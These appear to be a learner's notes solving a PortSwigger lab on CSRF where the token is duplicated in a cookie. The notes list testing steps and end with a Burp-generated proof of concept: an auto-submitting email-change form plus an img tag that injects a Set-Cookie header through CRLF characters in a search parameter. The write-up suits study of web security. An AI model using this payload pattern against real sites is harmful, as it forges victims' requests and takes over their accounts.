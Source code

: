 # CSRF where token is duplicated in cookie
- lab's email change functionality is vulnerable to CSRF
- attempts to use the insecure "double submit" CSRF prevention technique
- credentials: wiener:peter
# Goal
- use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
# Solving the Lab 
- log in and change email
- for CSRF To be possibel
  - Certain Action : change email
  - cookie based session handeling : session cookie
  - no unpredictablle request parameters 
- Testing For CSRF
  - Remove CSRF Token and see if application accepts it 
  - change request method from post to get
  - see if csrf token is tied to user session
- Testing csrf token and csrf keys
  - check if csrf token is tied to csrf key
    - submit an invalid csrf token
    - submit valid csrf token from a valid user
  - submit avalid csrf token and csrf cookie from another user
  - check if the two are equel and if so change value anything but same in both :YES
  - so we construct a payload that inject in header and do what we want
```
  <html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0a0005046ef4b58183cff3004f0029.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="tesdsdst&#64;mail&#46;com" />
      <input type="hidden" name="csrf" value="5iydd3rU2CtyK4R2FUlW9Dt66OVwSJhI" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a0a0005046ef4b58183cff3004f0029.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=uLf64t4oWx9qapcNNDPFASgWa7lD8n11%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```
- we send payload to exploit server and press send to victim  > solved the Lab
